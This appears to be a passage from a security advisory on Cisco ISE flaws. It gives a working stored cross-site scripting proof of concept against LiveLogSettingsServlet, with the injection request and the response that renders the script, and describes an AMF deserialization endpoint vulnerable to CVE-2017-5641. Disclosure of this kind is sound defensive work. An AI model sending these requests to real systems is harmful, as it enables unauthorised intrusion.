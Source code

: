When the *Action* parameter equals "read", the servlet will read the */opt/CSCOcpm/mnt/dashboard/liveAuthProps.txt* file and display it back to the user with the Content-Type *"text/html"*, causing whatever was written to that file to be rendered and executed by the browser.

To mount a simple attack, we can send the following request:
```
GET /admin/LiveLogSettingsServlet?Action=write&Columns=1&Rows=%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e&Refresh_rate=1337&Time_period=1337
```

Which can then be triggered with:
```
GET /admin/LiveLogSettingsServlet?Action=read HTTP/1.1


HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 164
Server:  

<Settings>
<Columns>
<Col>1</Col>
</Columns>
<Rows><script>alert(1)</script></Rows>
<Refresh_rate>1337</Refresh_rate>
<Time_period>1337</Time_period>
</Settings>
```

This will result in an alert box being popped in the browser, which means Javascript code was executed in the browser. This vulnerability can be exploited by an unauthenticated attacker.


### #2: Unsafe Flex AMF Java Object Deserialization
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* [CVE-2017-5641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5641)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: Requires authentication to the admin web interface
* Affected versions: confirmed on ISE virtual appliance v2.4.0.357

By sending an HTTP POST request with random data to */admin/messagebroker/amfsecure*, the server will respond with a 200 OK and binary data that includes:
```
 ...Unsupported AMF version XXXXX...
```

Which indicates that the server has a Apache / Adobe Flex AMF (BlazeDS) endpoint at that location. The BlazeDS library version running on the server is 4.0.0.14931, which means it is [vulnerable to CVE-2017-5641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5641), the description of which is stated below:

> "Previous versions of Apache Flex BlazeDS (4.7.2 and earlier) did not restrict which types were allowed for AMF(X) object deserialization by default. During the deserialization process code is executed that for several known types has undesired side-effects. Other, unknown types may also exhibit such behaviors. One vector in the Java standard library exists that allows an attacker to trigger possibly further exploitable Java deserialization of untrusted data. Other known vectors in third party libraries can be used to trigger remote code execution."
